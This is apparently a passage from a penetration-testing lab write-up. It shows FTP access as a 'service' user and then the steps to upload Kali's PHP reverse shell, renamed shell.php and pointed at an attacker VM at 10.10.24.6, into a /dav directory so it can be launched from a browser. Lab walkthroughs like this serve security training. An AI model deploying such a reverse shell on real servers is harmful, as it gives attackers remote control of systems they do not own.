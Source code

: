 ![](assets/image-20230424144745088.png)

```bash
pwd
	Remote directory: /home/service
# User's home directory
cd /
ls
# The "service" user can navigate in the entire file system
exit
```

- **Upload a `PHP` reverse shell** via FTP to the `/dav` directory and launch it with the browser

```bash
ls -al /usr/share/webshells/php/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
# Change the $ip variable to the Kali Attacker VM IP - 10.10.24.6
```

![](assets/image-20230424145319852.png)
